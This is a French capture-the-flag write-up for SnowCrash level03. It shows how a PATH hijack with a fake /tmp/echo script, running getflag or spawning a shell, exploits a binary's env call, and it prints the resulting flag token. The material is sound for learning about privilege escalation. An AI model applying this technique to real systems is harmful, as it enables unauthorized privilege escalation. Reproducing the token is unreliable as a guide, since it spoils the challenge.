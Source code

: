 # Level03 - Variable d'environnement
Pour résoudre le level03, on nous fournis un fichier level03. On utilise `strings` dessus, et on s'aperçoit que le programme fait appel à echo d'une manière un peu particulière...
```
/usr/bin/env echo Exploit me
```

On passe par l'environnement pour récupérer la variable $PATH, et on s'en sert pour aller chercher echo.

On peut exploiter cet appel en créant un faux programme echo dans `/tmp` qui va se charger d'appeler `getflag` ou de nous ouvrir un `terminal` vers flag03.

Pour se faire, on crée un script dans `/tmp` qu'on appelle `echo`:
```
#!/bin/bash
getflag | wall //Permet de récupérer directement 
               //le flag et de l'afficher sur le terminal avec wall
```
ou
```
#!/bin/bash
/bin/bash //Nous ouvre directement un terminal depuis l'utilisateur flag03
```

On édite la variable d'environnement `PATH` pour inclure `/tmp` dans les dossiers d'exécutions de programmes, que l'on met en premier:
```
flag03@SnowCrash:~$ export PATH=/tmp:$PATH
```

On `chmod 777 /tmp/echo` et on exécute `level03`. L'appel d'`echo` se fait avec notre version et nos commandes se lancent bien.

On récupère notre flag
```
flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

On a notre token: `qi0maab88jeaj46qoumi7maus`


